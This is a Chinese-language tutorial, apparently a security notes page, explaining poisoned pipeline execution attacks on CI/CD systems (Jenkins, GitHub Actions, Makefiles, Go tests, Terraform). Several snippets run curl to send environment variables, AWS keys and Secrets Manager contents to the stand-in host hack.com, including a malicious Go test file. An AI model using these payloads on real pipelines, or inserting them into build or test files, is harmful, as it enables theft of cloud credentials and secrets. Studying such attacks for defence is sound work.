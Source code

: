 

# poisoned-pipeline-execution(PPE)

定义pipeline最常见的方法是使用pipeline构建的存储中托管的CI配置文件，例如：

- Jenkinsfile (Jenkins)
- gitlab-ci.yml (GitLab)
- circleci/config.yml (CircleCI),
- GitHub Actions YAML files located under .github/workflows.

当触发的时候，pipeline job将会拉取选择的源码并且执行CI配置文件中指定的命令。

直接或间接地利用pipeline命令执行的行为就是PPE，即中毒的管道执行。

一般要求攻击者能够访问代码的存储库(SCM repository)，能实现存储库的更改，即通过直接推送到远程分支或通过从一个远程的branch或者fork进行pull request来触发CI Pipeline，能够触发导致pipeline执行的事件，能够修改的文件中定义了管道直接或间接执行的命令，且管道节点可以访问非公共资源。



根据分类，PPE分为D-PPE（直接PPE）、I-PPE（间接PPE）、P-PPE（公共PPE）

## D-PPE

D-PPE即攻击者能直接的修改他们有权访问的存储库中的 CI 配置文件，方法是将更改直接推送到存储库上不受保护的远程分支，或者通过从分支或分支提交包含更改的 PR 来修改 CI 配置文件。因此D-PPE的恶意代码就在CI配置文件中。

下面是几个例子。

例如使用withAWS插件加载aws凭据：

```json
pipeline {
    agent {
        docker {
            image 'golang'
        }
    }
    stages {
        stage('hack') {
            steps {
                withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                    sh 'curl -d env="$(env)" hack.com'
                }
            }
        }
    }
}
```



通过修改agent来选择特权的node，在上面执行恶意的命令：

```json
pipeline {
    agent {label 'ec2-prod-deploy'}
    stages {
        stage('hack') {
            steps {
                sh 'curl -d env="$(aws secretsmanager list-secrets --output text --query \'SecretList[*].[ARN]\' | xargs -L 1 aws secretsmanager get-secret-value --secret-id | base64)" hack.com'
            }
        }
    }
}
```

在github action中盗取凭据：

```json
name: PIPELINE
on: push
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - env:
        ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
        SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

        run: |
          curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com
```



## I-PPE

I-PPE是间接的PPE，当遇到例如如下列情况：

- 管道配置从同一存储库中的单独受保护分支中提取 CI 配置文件。
- CI 配置文件与源代码存储在单独的存储库中，用户无法直接编辑它。
-  CI 构建是在 CI 系统本身中定义的，而不是在源代码中存储的文件中定义的。



遇到这些情况，攻击者无法直接的控制pipeline配置文件，但是可以控制pipeline配置文件中间接调用的文件来注入恶意的代码。

例如：

- make：执行Makefile中的命令。
- 管道执行的脚本与源代码存储在同一存储库（例如 *python myscript.py* — 其中 myscript.py 将被攻击者操纵）
- 代码测试：可在测试代码中注入恶意代码。
- 自动工具：CI 中使用的 Linters 和安全扫描器通常也依赖于存储库中的配置文件。很多时候，这些配置涉及从配置文件中定义的位置加载和运行外部代码。

例如对面下入的pipeline，无法直接控制内容，但是它的三个stage都可以被利用。

```pipeline
pipeline {
    agent {
        docker {
            image 'golang'
        }
    }
    stages {
        stage('build') {
            steps {
                withCredentials([string(credentialsId: 'dockerhub_creds', variable: 'DOCKERHUB_CREDS')]) {
                        sh '''
                            echo "running Makefile..."
                            make build
                            make clean
                        '''
                }
            }
        }
        stage('test') {
            steps {
                sh 'go test -v ./...'
            }
        }
        stage('terraform') {
            steps {
                withAWS(credentials: 'AWS_creds', region: 'us-east-1') {
                    sh 'cd terraform && terraform init && terraform plan -out=tfplan'
                }
            }
        }
    }
}
```





第一步使用了make，可以直接在makefile中插入恶意代码：

```makefile
build:
	curl -d env="$$(env)" hack.com

clean:
	echo "cleaning..."
```



第二部使用了`go test`命令进行代码的测试，GO 的测试包在存储库中具有“_test.go”后缀的文件上运行。因此控制`_test.go`后缀的文件：

```go
package main

import (
	"net/url"
	"os"
	"os/exec"
	"strings"
	"testing"
)

func TestBasic(t *testing.T) {
	num := 1

	env := strings.Join(os.Environ(), " ")
	exec.Command("curl", "-d", url.QueryEscape(env), "hack.com").Run()

	if num != 1 {
		t.Errorf("expected 1, got %d", num)
	}
}
```



第三步使用了terraform这样的自动化工具，命令是`terraform plan`，仍然可以实现攻击，参考https://github.com/rung/terraform-provider-cmdexec和https://alex.kaskaso.li/post/terraform-plan-rce



## P-PPE

如果公共存储库的 CI 构建管道运行匿名用户建议的未经审查的代码，则很容易受到公共 PPE 攻击，简称 3PE。

## 参考

https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422